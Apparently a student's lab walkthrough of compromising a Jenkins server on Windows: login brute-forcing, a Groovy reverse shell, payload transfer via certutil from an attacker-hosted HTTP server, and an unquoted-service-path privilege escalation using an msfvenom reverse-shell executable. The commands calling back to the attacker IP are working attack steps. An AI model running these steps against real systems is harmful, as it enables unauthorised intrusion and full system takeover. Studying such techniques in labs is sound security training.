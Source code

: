 - 1 - Nmap and notice the port 8080 is open with Jenkis running. 
- 2 - After researching exploits and alternatives to attack we would try to bruteforce. 
- 3 - Using Burpsuit we can intercept a login request and send it to intruder. Using the Cluster bomb we can try using usernames and passwords. We could go online and research for the top 100 usernames and paswords for jenkins Or using rockyou.txt. 
	- Results: jenkins:jenkins
- 4 - Once in I can search online ways to attack the system. I can see that there is a "script console" using Groovy script. Searching for a reverse shell using groovy we get https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76. Set a nc listener on our machine and change the localhost to my ip. 
- Once inside we can use winpeas to list potential vulnerabilities. Dowload the winpeas to my machine and move it to a new folder and run the "python3 -m http.server 80" and on the windows machine to get the file use "certutil.exe -urlcache -f http://192.168.138.132/winpeas.exe winpeas.exe" (first name is the name on my system and the second is how it will be named in the windows system). The use "dir" (this is the ls for windows)
- We found something interesting in the services section:
- ![[Pasted image 20230517165225.png]] This service is runnig and the file path has no quotes thats why "No quotes and space detected". This means the system will check every type of path by adding an .exe to check if that is the file to be used. This means we can go to the folder Wise and create a wise.exe that would give as a admin reverse shell.
- We can use msfvenom on our system to create a exploit. using "msvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.138.132 LPORT=1234 -f exe > Wise.exe" and use the python server again to host this file. 
- After getting the file we need to stop and start again the service using this file. In the picture is called WiseBootAssistant. To stop we use "sc stop WiseBootAssistant" to check the status "sc query WiseBootAssistant" and to start again using "sc start WiseBootAssistant" and we get a authority\system shell. Do not forget to create the nc listener again with the port 1234.
